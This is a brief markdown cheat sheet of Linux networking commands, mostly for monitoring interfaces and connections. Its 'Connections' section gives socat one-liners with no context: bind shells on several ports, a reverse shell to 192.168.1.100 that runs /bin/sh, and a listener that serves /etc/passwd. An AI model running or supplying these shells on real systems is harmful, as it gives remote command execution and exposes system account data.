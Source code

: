 # Networking


ip2route suite


Monitoring

    iftop

    tcpdump

    netstat -tuln

    ss -tuln

    dmesg | grep -i net

    nload

    bmon

    curl ifconfig.me

    ip addr
    ip a
    hostname -I ; -i
    

## tcpdump


    tcpdump -i eth0 -nn -e

    


## Connections

    REVERSE_IP=$(hostname -I | tr -d " ")

    socat TCP-LISTEN:4444 EXEC:/bin/bash
    socat TCP-LISTEN:5555 SYSTEM:"id"
    socat TCP-CONNECT:192.168.1.100:4444 EXEC:/bin/sh
    socat TCP-LISTEN:6666 EXEC:"cat /etc/passwd"


    ss


